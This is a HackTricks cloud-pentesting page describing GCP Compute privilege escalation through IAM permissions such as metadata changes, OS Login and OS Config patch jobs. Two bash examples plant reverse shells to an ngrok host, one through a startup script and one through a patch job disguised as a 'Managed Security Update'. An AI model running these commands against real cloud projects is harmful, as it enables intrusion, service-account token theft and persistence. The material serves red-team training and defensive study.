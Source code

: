 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

For more information about Compute and VPC (netowork) in GCP check:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Note that to perform all the privilege escalation atacks that require to modify the metadata of the instance (like adding new users and SSH keys) it's **needed that you have `actAs` permissions over the SA attached to the instance**, even if the SA is already attached!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

With that permission you can **modify** the **metadata** information of an **instance** and change the **authorized keys of a user**, or **create** a **new user with sudo** permissions. Therefore, you will be able to exec via SSH into any VM instance and steal the GCP Service Account the Instance is running with.\
Limitations:

* Note that GCP Service Accounts running in VM instances by default have a **very limited scope**
* You will need to be **able to contact the SSH** server to login

For more information about how to exploit this permission check:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

You could aslo perform this attack by adding new startup-script and rebooting the instance:

```bash
gcloud compute instances add-metadata my-vm-instance \
    --metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```

### `compute.instances.setMetadata`

This permission gives the **same privileges as the previous permission** but over a specific instances instead to a whole project. The **same exploits and limitations as for the previous section applies**.

### `compute.instances.setIamPolicy`

This kind of permission will allow you to **grant yourself a role with the previous permissions** and escalate privileges abusing them.

### **`compute.instances.osLogin`**

If **OSLogin is enabled in the instance**, with this permission you can just run **`gcloud compute ssh [INSTANCE]`** and connect to the instance. You **won't have root privs** inside the instance.

{% hint style="success" %}
In order to successfully login with this permission inside the VM instance, you need to have the `iam.serviceAccounts.actAs` permission over the SA atatched to the VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

If **OSLogin is enabled in the instanc**e, with this permission you can just run **`gcloud compute ssh [INSTANCE]`** and connect to the instance. You will have **root privs** inside the instance.

{% hint style="success" %}
In order to successfully login with this permission inside the VM instance, you need to have the `iam.serviceAccounts.actAs` permission over the SA atatched to the VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

It's possible to **create a virtual machine with an assigned Service Account and steal the token** of the service account accessing the metadata to escalate privileges to it.

The exploit script for this method can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

If you have the **`osconfig.patchDeployments.create`** or **`osconfig.patchJobs.exec`** permissions you can create a [**patch job or deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). This will enable you to move laterally in the environment and gain code execution on all the compute instances within a project.

Note that at the moment you **don't need `astAs` permission** over the SA attached to the instance.

If you want to manually exploit this you will need to create either a [**patch job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **or** [**deployment**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
For a patch job run:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
  --instance-filter-names=zones/us-central1-a/instances/<instance-name> \
  --pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
  --reboot-config=never \
  --display-name="Managed Security Update" \
  --duration=300s
```
{% endcode %}

To deploy a patch deployment:

```bash
gcloud compute os-config patch-deployments create <name> ...
```

The tool [patchy](https://github.com/rek7/patchy) could been used in the past for exploiting this misconfiguration (but now it's not working).

**An attacker could also abuse this for persistence.**

### `compute.machineImages.setIamPolicy`

**Grant yourself extra permissions** to compute Image.

### `compute.snapshots.setIamPolicy`

**Grant yourself extra permissions** to a disk snapshot.

### `compute.disks.setIamPolicy`

**Grant yourself extra permissions** to a disk.

### Bypass Access Scopes

Following this link you find some [**ideas to try to bypass access scopes**](../).

### Local Privilege Escalation in GCP Compute instance

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## References

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
